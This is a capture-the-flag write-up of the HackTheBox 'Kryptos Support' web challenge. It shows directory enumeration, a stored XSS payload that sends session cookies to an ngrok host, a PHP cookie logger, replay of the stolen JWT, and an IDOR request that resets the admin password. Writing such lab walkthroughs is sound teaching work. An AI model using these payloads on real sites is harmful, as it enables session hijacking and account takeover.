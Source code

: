 ```yaml
---
title: HTB-CA22-web-kryptos_support
date: "2022-05-19"
description: web challenge during Cyber Apocalypse 2022
tldr: xss,idor
tags: [htb,hackthebox,ca22,cyber-apocalypse22,idor,xss,ngrok]
---
```


## Background story
Each challenge had a story tied to it, for this challenge it was:   

The secret vault used by the Longhir's planet council, Kryptos, contains some very sensitive state secrets that Virgil and Ramona are after to prove the injustice performed by the commission.  
Ulysses performed an initial recon at their request and found a support portal for the vault. Can you take a look if you can infiltrate this system?


## Initial analysis

It looks like a regular webpage with a field where information can be entered. After a while a message appears about an admin that will review the ticket shortly.

![htb-ca22-krysup1](/img/htb-ca22-krysup1.png)

Install [ngrok](https://ngrok.com/download) in order to get a ping-back address for any XSS we try out.


### Enumeration
In order to see wheter there are any more interesting folders, dirb is used :

```shell
dirb [http://178.62.73.26:31821/](http://178.62.73.26:31821/)  
  
-----------------  
DIRB v2.22  
By The Dark Raver  
-----------------  
  
START_TIME: Sun May 15 00:05:03 2022  
URL_BASE: [http://178.62.73.26:31821/](http://178.62.73.26:31821/)  
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt  
  
-----------------  
  
GENERATED WORDS: 4612  
  
---- Scanning URL: [http://178.62.73.26:31821/](http://178.62.73.26:31821/) ----  
+ [http://178.62.73.26:31821/admin](http://178.62.73.26:31821/admin) (CODE:302|SIZE:23)  
+ [http://178.62.73.26:31821/Admin](http://178.62.73.26:31821/Admin) (CODE:302|SIZE:23)  
+ [http://178.62.73.26:31821/ADMIN](http://178.62.73.26:31821/ADMIN) (CODE:302|SIZE:23)  
+ [http://178.62.73.26:31821/login](http://178.62.73.26:31821/login) (CODE:200|SIZE:2352)  
+ [http://178.62.73.26:31821/Login](http://178.62.73.26:31821/Login) (CODE:200|SIZE:2352)  
+ [http://178.62.73.26:31821/logout](http://178.62.73.26:31821/logout) (CODE:302|SIZE:23)  
+ [http://178.62.73.26:31821/settings](http://178.62.73.26:31821/settings) (CODE:302|SIZE:23)  
+ [http://178.62.73.26:31821/static](http://178.62.73.26:31821/static) (CODE:301|SIZE:179)  
+ [http://178.62.73.26:31821/tickets](http://178.62.73.26:31821/tickets) (CODE:302|SIZE:23)
```

## XSS attack 

Run ngrok: `ngrok http 80` and make sure that `apache2` or something similar is running, to respond on the traffic. Because ngrok is just like a port-forwarder and won't handle any XSS/HTTP replies.

After quite a few attempts and tries with different php files, a working XSS was found: 
```java
"><script>document.location='https://3cdc-92-32-1-75.eu.ngrok.io/cookies.php?c='+document.cookie;</script>
```

with the `cookies.php` file: 
```php
<?php  
  
header('Location:https://3cdc-92-32-1-75.eu.ngrok.io'); // Redirecting it towards a particular website.  
  
$cookie = $_GET["c"];  
  
$file = fopen("log.txt", "a"); //Creating a Text file for storing the Session details while appending.  
  
fwrite($file, $cookie "\n\n"); //Writing the text of Cookie in the Log File.  
  
?>
```

after a short while, we can see in the apache `access.log` that the challenge-server has connected back to us: 
```shell
reply in the “access log” from apache:  
::1 - - [17/May/2022:20:30:18 +0200] "GET /cookies.php?c=session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI4MTIyMTh9.AXQjAq7Qj60hSOfzBjYE0XE84NYHI_1hcANOFjUOWX8 HTTP/1.1" 500 185 "http://127.0.0.1:1337/" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/101.0.4950.0 Safari/537.36"
```

##  Use the JWT 
The cookie that was received in the log was a `Java Web Token` which can be used as a session cookie. Under the "storage" part of the browser, create a cookie called session and enter: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI4MTIyMTh9.AXQjAq7Qj60hSOfzBjYE0XE84NYHI_1hcANOFjUOWX8`

Refresh the page and try to reach the `/settings` page. Now we are apparently logged in  as the `moderator` user.

![htb-ca22-krysup2](/img/htb-ca22-krysup2.png)

we can update the password for the moderator user and try to login on the `/login` folder, but because the XSS we posted earlier is in the system as a ticket, we will execute the xss on ourselves.

Capture the GET request with `burp-suite` to the `/tickets` page and use burp to "browse" instead, and get a text version of the site presented.

```html
GET /tickets HTTP/1.1  
Host: 165.22.125.212:30120  
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0  
Accept: */*  
Accept-Language: en-US,en;q=0.5  
Accept-Encoding: gzip, deflate  
Referer: [http://165.22.125.212:30120/login](http://165.22.125.212:30120/login)  
Content-Type: application/json  
Origin: [http://165.22.125.212:30120](http://165.22.125.212:30120)  
Content-Length: 47  
Connection: close  
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI4MjAyNTh9.l2ugGZ3XWWrGuel8aGkPMX28SKLXRk3UOMihEiOq8uc  
  
{"username":"moderator","password":"password1"}
```

and the resulting page looks like: 
```html
<html lang="en">  
<head>  
<meta charset="UTF-8">  
<meta name="viewport" content="width=device-width, initial-scale=1.0">  
<meta http-equiv="X-UA-Compatible" content="ie=edge">  
<link rel="icon" type="image/x-icon" href="/static/images/favicon.png">  
<title>Kryptos Vault</title>  
<link rel="stylesheet" href="/static/css/tickets.css">  
</head>  
<body>  
<nav class="nav-bar">  
<ul>  
<li>  
<a href="/settings">Settings</a>  
</li>  
</ul>  
</nav>  
<nav class="logged-bar">  
<ul>  
<li>  
logged in as (moderator), <a href="/logout">logout</a>  
</li>  
</ul>  
</nav>  
<div class="container on">  
<div class="screen">  
<h3 class="title">  
Kryptos Vault Support tickets  
</h3>  
<div class="message-container">  
  
<div class="ticket-card">  
<div class="c1"><span>Submitted </span></div>  
<div class="c2"><p>2022-05-17 20:30:53</p></div>  
<div class="c1"><span>Message </span></div>  
<div class="c2"><p>I have lost my rfid for the vault. My vault serial is 000083921. Please send me a new rfid.</p></div>  
</div>  
  
<div class="ticket-card">  
<div class="c1"><span>Submitted </span></div>  
<div class="c2"><p>2022-05-17 20:30:53</p></div>  
<div class="c1"><span>Message </span></div>  
<div class="c2"><p>Vault 000076439 requires maintenance.</p></div>  
</div>  
  
<div class="ticket-card">  
<div class="c1"><span>Submitted </span></div>  
<div class="c2"><p>2022-05-17 20:31:14</p></div>  
<div class="c1"><span>Message </span></div>  
<div class="c2"><p>"><script>document.location='[https://3cdc-92-32-1-75.eu.ngrok.io/cookies.php?c='+document.cookie;](https://3cdc-92-32-1-75.eu.ngrok.io/cookies.php?c='+document.cookie;) </script></p></div>  
</div>  
  
  
</div>  
</div>  
</div>  
</body>  
</html>
```

## JWT Manipulation
Trying to modify the JWT token with [https://jwt.io/](https://jwt.io/) didn't work, because the token couldn't be signed again due to lacking information.

Instead we recall that the `/settings` page just required the password and a UID for updating a user.

Capture that POST request with burp, and change the UID to `1` instead.

```html
POST /api/users/update HTTP/1.1  
Host: 46.101.30.188:30634  
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0  
Accept: */*  
Accept-Language: en-US,en;q=0.5  
Accept-Encoding: gzip, deflate  
Referer: [http://46.101.30.188:30634/settings](http://46.101.30.188:30634/settings)  
Content-Type: application/json  
Origin: [http://46.101.30.188:30634](http://46.101.30.188:30634)  
Content-Length: 34  
Connection: close  
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI4NjA1ODJ9.AcOnO7dcusxXZl4t58TWF50Yn8Oug37gqJnF5L8Fsjw  
  
{"password":"password2","uid":"1"}
```

reply back from the server is a very positive one: 

```html
HTTP/1.1 200 OK  
X-Powered-By: Express  
Content-Type: application/json; charset=utf-8  
Content-Length: 54  
ETag: W/"36-RArwqjccHL1q7o0owZa+anWnvtw"  
Date: Wed, 18 May 2022 07:57:30 GMT  
Connection: close  
  
{"message":"Password for admin changed successfully!"}
```

we can now login as admin and get the flag ! 

![htb-ca22-krysup3](/img/htb-ca22-krysup3.png)

Flag: `HTB{x55_4nd_id0rs_ar3_fun!!}`